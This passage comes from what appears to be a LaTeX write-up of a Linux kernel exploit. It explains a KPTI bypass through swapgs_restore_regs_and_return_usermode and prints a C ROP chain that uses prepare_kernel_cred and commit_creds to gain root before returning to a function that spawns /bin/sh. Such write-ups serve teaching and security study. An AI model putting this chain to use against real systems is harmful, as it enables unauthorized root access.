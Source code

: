     The only step in this ROP that we have not analyzed is bypassing kpti.
    As explained previously, this mitigation was implemented mainly for hardware bugs but also at a software level, it adds a step to our ROP chain, in fact, we will call the   swapgs\_restore\_regs\_and\_return\_usermode function which allows us to set RIP to the win function which will call execve("/bin/sh") and set the registers to reset the stack.\newline
    Follow the instructions that  
    swapgs\_restore\_regs\_and\_return\_usermode fig \ref{fig:restorereg}: \newline
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=1\linewidth]{Images/swapgs_restore_regs_and_return_usermode.png}
        \caption{Function assembly instructions.}
        \label{fig:restorereg}
    \end{figure}fig:restorereg
    \clearpage
    This is what looks like the ROP chain:
    \begin{verbatim}
      memset(buf, 'A', 0x408);
      unsigned long *chain = (unsigned long*)&buf[0x408];
      *chain++ = rop_pop_rdi;
      *chain++ = 0;
      *chain++ = prepare_kernel_cred;
      *chain++ = rop_pop_rcx;
      *chain++ = 0;
      *chain++ = rop_mov_rdi_rax_rep_movsq;
      *chain++ = commit_creds;
      *chain++ = rop_bypass_kpti;
      *chain++ = 0xdeadbeef; // [rdi]
      *chain++ = 0xdeadbeef;
      *chain++ = (unsigned long)&win; // [rdi+0x10]
      *chain++ = user_cs;             // [rdi+0x18]
      *chain++ = user_rflags;         // [rdi+0x20]
      *chain++ = user_rsp;            // [rdi+0x28]
      *chain++ = user_ss;             // [rdi+0x30]
      puts("[+] Executing ROP ...");

  write(fd, buf, (void*)chain - (void*)buf);
    \end{verbatim}
    
